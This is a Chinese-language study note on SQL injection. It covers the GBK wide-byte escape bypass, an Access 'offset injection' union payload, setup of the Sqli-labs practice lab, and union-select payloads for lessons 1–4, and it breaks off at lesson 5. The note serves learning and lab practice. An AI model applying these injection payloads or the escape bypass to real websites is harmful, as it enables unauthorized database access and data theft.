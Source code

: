 ```shell
提交的参数如果带有单引号"'"，就会被自动转义"\'"，使很多注入攻击无效

gbk 双字节编码：一个汉字用两个字节表示，首字节都应 0x81-0xFE,
尾字节对应 0x40-0xfe(除0x7f)，刚好涵盖了转义字符\对应的编码 0x5c

0xD50x5C 对应了汉字“诚”，URL编码用百分号加字符的16进制编码表示字符，
于是 %d5%5c 经URL解码后为“诚”
0xD50x5c 不是唯一可以绕过单引号转义的字符，0x81-0xFE 开头 + 0x5c 的字符应该都可以


# 偏移注入
2.select * from admin as inner join 
  index.asp?id=886and 1=2 union select 1,2,3,4,* from(admin as a inner join admin as   b on a.id=b.id)
 查询条件是 a 表的 id 列与 b 表的 id 列相等，返回所有相等的行，显然，a,b都是同一个表，当然全部返回
```

Access 是以单文件，mdb 格式，以表的形式存在，所以数据库也就只有一个文件，只能靠暴力猜解。

> Access  ->  表名  ->  列名  ->  数据



### Sqli-labs 

#### 搭建

```shell
git clone https://github.com/Audi-1/sqli-labs.git

修改 sql-connections/sql-labs/db-creds.inc MySQL用户名/密码
放到 Apache 下或者 PHPstudy这种集成工具

From your browser access the sql-labs folder to load index.html
Click on the link setup/resetDB to create database, create tables and populate Data.
Labs ready to be used, click on lesson number to open the lesson page.
Enjoy the labs
```

#### 小记录

注释符：`--+`，实际是 `--空格`，`#`

注意 `url` 编码，如 `#` ，不进行编码 `%23` 的话，可能被服务器认为是锚点

##### Less-1 Error based - Single quotes

```sql
?id=-1%27 union select 1, 2, flag from flag%23
```

##### Less-2 Error based - Double quotes
```sql
?id=-1 union select 1, 2, flag from flag%23
```
##### Less-3 Error based - Single quotes with twist
```sql
?id=-1') union select 1, 2, flag from flag%23
```
##### Less-4 Error based - Double Quotes 
```sql
?id=-1") union select 1, 2, flag from flag%23
```
##### Less-5 Double Injection - Single Quotes
